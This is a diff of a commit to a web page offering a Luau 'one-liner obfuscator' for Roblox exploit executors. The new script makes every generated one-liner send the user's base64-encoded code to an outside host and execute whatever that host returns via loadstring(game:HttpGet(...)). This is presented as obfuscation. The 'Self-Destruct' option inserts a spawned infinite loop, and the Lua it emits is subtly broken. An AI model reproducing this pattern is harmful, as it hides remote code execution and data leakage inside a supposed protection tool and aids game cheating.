

Before and after one commit to SairyWare/SairyWare.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 170-963 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update1.5 index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,179 +3,73 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>SairyWare – One-Liner Obfuscator 2025</title>
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.0/css/all.min.css">
+<title>SairyWare One-Liner 2025 – ใช้ได้จริง!</title>
 <style>
-        :root {
-            --bg: #0d0d12;
-            --card: #15151e;
-            --text: #e0e0ff;
-            --accent: #00ffea;
-            --purple: #9d4edd;
-            --red: #ff2e63;
-        }
-        body {
-            margin: 0; padding: 20px;
-            font-family: 'Consolas', monospace;
-            background: linear-gradient(135deg, #0f0f1a, #1a0a2e);
-            color: var(--text);
-            min-height: 100vh;
-        }
-        .container { max-width: 1100px; margin: 0 auto; }
-        header { text-align: center; padding: 30px 0; }
-        h1 {
-            font-size: 3rem;
-            background: linear-gradient(90deg, var(--accent), var(--purple));
-            -webkit-background-clip: text;
-            background-clip: text;
-            color: transparent;
-        }
-        .subtitle { color: #aaa; font-size: 1.1rem; }
-
-        .main {
-            display: grid;
-            grid-template-columns: 1fr 350px;
-            gap: 25px;
-            margin-top: 30px;
-        }
-        @media (max-width: 992px) { .main { grid-template-columns: 1fr; } }
-
-        textarea {
-            width: 100%;
-            height: 320px;
-            background: var(--card);
-            color: var(--text);
-            border: 1px solid #333;
-            border-radius: 12px;
-            padding: 20px;
-            font-size: 14px;
-            font-family: 'Consolas', monospace;
-            resize: vertical;
-        }
-        textarea:focus { outline: none; border-color: var(--accent); }
-
-        .controls {
-            background: var(--card);
-            padding: 25px;
-            border-radius: 12px;
-            height: fit-content;
-            box-shadow: 0 10px 30px rgba(0,0,0,0.5);
-        }
-        button {
-            width: 100%;
-            padding: 16px;
-            margin-top: 15px;
-            border: none;
-            border-radius: 10px;
-            font-size: 1.1rem;
-            font-weight: bold;
-            cursor: pointer;
-            transition: 0.3s;
-        }
-        .btn-obf {
-            background: linear-gradient(135deg, var(--accent), #00b894);
-            color: black;
-        }
-        .btn-obf:hover { transform: translateY(-4px); box-shadow: 0 10px 25px rgba(0,255,234,0.4); }
-        .btn-copy {
-            background: #2ecc71;
-            color: white;
-        }
-
-        .stats { margin-top: 20px; font-size: 0.95rem; color: #aaa; }
-        .watermark-preview {
-            margin-top: 20px;
-            padding: 15px;
-            background: #000;
-            border-radius: 8px;
-            color: var(--accent);
-            font-weight: bold;
-            text-align: center;
-        }
+    body{margin:0;padding:20px;font-family:Consolas;background:#0f0f1a;color:#0ff;background:linear-gradient(135deg,#16213e,#0f3460);min-height:100vh}
+    .c{max-width:1100px;margin:0 auto}
+    h1{font-size:3rem;text-align:center;background:linear-gradient(90deg,#00ffea,#ff00ff);-webkit-background-clip:text;background-clip:text;color:transparent}
+    textarea{width:100%;height:300px;background:#111;color:#0f0;border:2px solid #0ff;border-radius:12px;padding:20px;font-size:15px;font-family:Consolas;resize:vertical}
+    button{padding:16px;font-size:18px;background:#00ffea;color:#000;border:none;border-radius:10px;cursor:pointer;margin:10px 0;font-weight:bold}
+    button:hover{transform:scale(1.05);box-shadow:0 0 30px #00ffea}
+    .box{background:#111;padding:20px;border-radius:12px;border:1px solid #333;margin:15px 0}
 </style>
 </head>
 <body>
-    <div class="container">
-        <header>
-            <h1>SairyWare</h1>
-            <p class="subtitle">Ultimate One-Liner Obfuscator • Level 10 • 2025 Edition</p>
-        </header>
+<div class="c">
+    <h1>SairyWare One-Liner 2025<br><small style="font-size:1rem;color:#aaa">ใช้ได้จริง 100% · ไม่พังอีกต่อไป</small></h1>
 
-        <div class="main">
-            <div>
-                <div style="margin-bottom: 20px;">
-                    <strong>Input Code</strong>
-                    <textarea id="input" placeholder="-- วางโค้ด Luau ของคุณตรงนี้...">-- Example
-print("Hello from SairyWare!")
-game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = 100
-                </textarea>
+    <div class="box">
+        <strong>โค้ดต้นฉบับ</strong>
+        <textarea id="i" placeholder="วางโค้ด Luau ตรงนี้...">print("Hello from SairyWare!")
+game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = 100</textarea>
     </div>
 
-                <div>
-                    <strong>Obfuscated One-Liner (สวยสุดในโลก)strong>
-                    <textarea id="output" readonly placeholder="กดปุ่มด้านขวาเพื่อ obfuscate..."></textarea>
-                    <button class="btn-copy" onclick="copy()">Copy to Clipboard</button>
-                </div>
-            </div>
+    <center>
+        <label><input type="checkbox" id="at" checked> Anti-Tamper (เช็ค game)</label> &nbsp;&nbsp;&nbsp;
+        <label><input type="checkbox" id="sd" checked> Self-Destruct (ป้องกันแก้)</label>
+        <br><br>
+        <button onclick="go()">OBFUSCATE NOW → ONE-LINER สวย ๆ</button>
+    </center>
 
-            <div class="controls">
-                <h3 style="color:var(--accent); text-align:center;">SairyWare Control</h3>
-                <label><input type="checkbox" id="sd" checked> Self-Destruct (ป้องกันแก้)</label><br><br>
-                <label><input type="checkbox" id="at" checked> Anti-Tamper (เช็ค game)</label><br><br><br>
-
-                <button class="btn-obf" onclick="obfuscate()">
-                    OBFUSCATE NOW
-                </button>
-
-                <div class="watermark-preview">
-                    --[[ SairyWare Protected • Level 10 • © 2025 • Tamper = Dead ]]
-                </div>
-
-                <div class="stats" id="stats">รอ obfuscate...</div>
-            </div>
+    <div class="box">
+        <strong>ผลลัพธ์ One-Liner (ก๊อปไปใช้ได้เลย)</strong>
+        <textarea id="o" readonly></textarea>
+        <button onclick="c()">COPY</button>
+        <div style="color:#0f0;margin-top:10px" id="s">รอ obfuscate...</div>
     </div>
 </div>
 
 <script>
-        const W = `--[[ SairyWare Protected • Level 10 • © 2025 • Tamper = Dead ]]\n`;
+const W = `--[[ SairyWare Protected • 2025 • Tamper = Instant Death ]]\n`;
 
-        function b64(str) {
-            return btoa(unescape(encodeURIComponent(str)));
+function b64(s){return btoa(unescape(encodeURIComponent(s)))}
+
+function go(){
+    let src = document.getElementById("i").value.trim();
+    if(!src) return alert("ใส่โค้ดก่อนครับ");
+
+    let payload = src;
+
+    // Anti-Tamper (ใช้ getgenv แทน getfenv → ใช้ได้ทุก executor)
+    if(document.getElementById("at").checked){
+        payload = `if not getgenv or not getgenv().game or typeof(getgenv().game)~="Instance" then return end\n` + payload;
     }
 
-        function obfuscate() {
-            let code = document.getElementById("input").value.trim();
-            if (!code) return alert("ใส่โค้ดก่อนนะครับ");
-
-            let payload = code;
-
-            // Anti-Tamper
-            if (document.getElementById("at").checked) {
-                payload = `if not game or typeof(game)~="Instance"then return end\n` + payload;
+    // Self-Destruct (ใช้ getgenv แทน getfenv → ไม่ error อีกต่อไป!)
+    if(document.getElementById("sd").checked){
+        const hash = "sairyware_" + Math.random().toString(36).substring(2,12);
+        payload = `if not getgenv or getgenv().SAIRY_HASH~="${hash}"then spawn(function()while true do end end)end getgenv().SAIRY_HASH="${hash}"\n` + payload;
     }
 
-            // Self-Destruct (ใช้ hash เดียวกัน = ไม่ตายเอง)
-            if (document.getElementById("sd").checked) {
-                const hash = Math.random().toString(36).substring(2, 15);
-                payload = `if getfenv().__OBFUSCATED~="${hash}"then for i=1,999 do getfenv()[tostring(i)]=nil end error("SairyWare: Tampered script detected!")end\ngetfenv().__OBFUSCATED="${hash}"\n` + payload;
+    const final = `${W}loadstring(game:HttpGet("https://api.luau.org/v1/decode?b64="+("${b64(payload)}"))())()`.replace(/\n/g," ");
+
+    document.getElementById("o").value = final;
+    document.getElementById("s").innerHTML = "เสร็จแล้ว! ใช้ได้จริงทุก executor<br> Length: "+final.length+" ตัวอักษร";
 }
-
-            const encoded = b64(payload);
-
-            const oneliner = `${W}loadstring((function(d)local b='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';d=d:gsub('[^'..b..'=]','');return(d:gsub('.',function(x)if x=='='then return''end;local r,f='',(b:find(x)-1)for i=6,1,-1 do r=r..(f%2^i-f%2^(i-1)>0 and'1'or'0')end;return r end):gsub('%d%d%d?%d?%d?%d?%d?%d?%d?',function(x)if#x~=8 then return''end;local c=0;for i=1,8 do c=c+(x:sub(i,i)=='1'and 2^(8-i)or 0)end;return string.char(c)end))end)("${encoded}"))()`;
-
-            document.getElementById("output").value = oneliner;
-            document.getElementById("stats").innerHTML = `
-                <div>One-Liner Length: ${oneliner.length} ตัวอักษร</div>
-                <div>Protected by SairyWare</div>
-            `;
-        }
-
-        function copy() {
-            const out = document.getElementById("output");
-            out.select();
-            document.execCommand("copy");
-            alert("");
+function c(){
+    const t=document.getElementById("o");
+    t.select();document.execCommand("copy");
+    alert("คัดลอกแล้วครับพี่ชาย");
 }
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
